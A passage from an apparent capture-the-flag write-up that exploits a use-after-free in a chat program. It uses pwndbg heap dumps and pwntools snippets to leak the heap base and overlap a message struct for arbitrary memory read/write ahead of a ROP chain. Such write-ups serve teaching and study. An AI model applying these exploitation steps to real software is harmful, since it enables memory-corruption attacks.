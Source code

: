 What we see:

*   That freed-up chunk of RAM is just enough to allocate a single `struct Message`
    once we start "chatting".
*   Right after that `free()` we also get what looks like `heap_base>>12` - which is
    now inside of the `main_user` string.

    ```
    pwndbg> vis_heap_chunks
    (...)
    0x56021dfbe290 0x0000000000000000 0x0000000000000021 ........!.......
    0x56021dfbe2a0 0x000000056021dfbe 0x9b690456f26de78d ..!`......m.V.i. <-- tcachebins[0x20][0/1]
    0x56021dfbe2b0 0x0000000000000000 0x0000000000001011 ................

    pwndbg> arenas
    arena type arena address  heap address   map start      map end        perm size  offset file
    ---------- -------------- -------------- -------------- -------------- ---- ----- ------ ------
    main_arena 0x7f833741ac80 0x56021dfbe000 0x56021dfbe000 0x56021dfdf000 rw-p 21000      0 [heap]

    pwndbg> vmmap
    0x56021dfbe000     0x56021dfdf000 rw-p    21000      0 [heap]
    ```
    
    Thus, if we add following to `gdpr()`, it will now return that heap base address:

    ```python
    interact("Your data has been deleted.\n\n")
    return pwn.u64(io.recv(5)+b'\0\0\0')*4096
    ```

## Start the interaction

We can now start using all above functions, create the first message and interactively
build the exploit from here:

```python
# Unlock premium
premium("myname")

# Trigger UAF, leak heap address
heap_base = gdpr()
print("heap_base: ", hex(heap_base))

# Create first message.
chat(1, 256*"A")
```

Note that `struct Message` for that first message will overlap with `main_user` -
which we can both read and write. So, with some small limitations, we can control
the string pointer in that message and then, read / write that message, effectively
providing an arbitrary memory read / write facility.

As we find out later, the buffer for that first message has to be long enough
to hold the ROP chain - otherwise, "chatting" tries to free a bad pointer, which
causes an error / exit. That's why we have 256 here.
